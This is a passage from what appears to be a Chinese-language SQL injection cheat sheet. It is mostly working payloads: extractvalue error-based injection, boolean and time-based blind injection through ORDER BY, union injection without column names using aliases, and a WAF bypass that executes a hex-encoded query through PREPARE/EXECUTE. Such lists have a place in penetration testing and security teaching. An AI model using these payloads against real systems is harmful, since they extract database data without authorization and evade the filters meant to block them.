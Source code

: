 **7.1报错注入**

```sql
1 and extractvalue(1,concat(0x7e,(select user()),0x7e));
```

**7.2bool盲注**

```sql
order by IF((substr(user(),1,1)='r'),1,(select 1 union select 2));
```

**7.3延时盲注**

不推荐，每条数据都会执行一次延时。

```
order by if(1,sleep(3),0);
```



## 无列名注入

别名

```sql
select * from user where username='' union select `1`,`2` from(select 1,2 union select *from user)a;
```



## **绕过waf总结**

```sql
SET @SQL=0x73656c65637420646174616261736528293b;
PREPARE pord FROM @SQL;EXECUTE pord;
```



 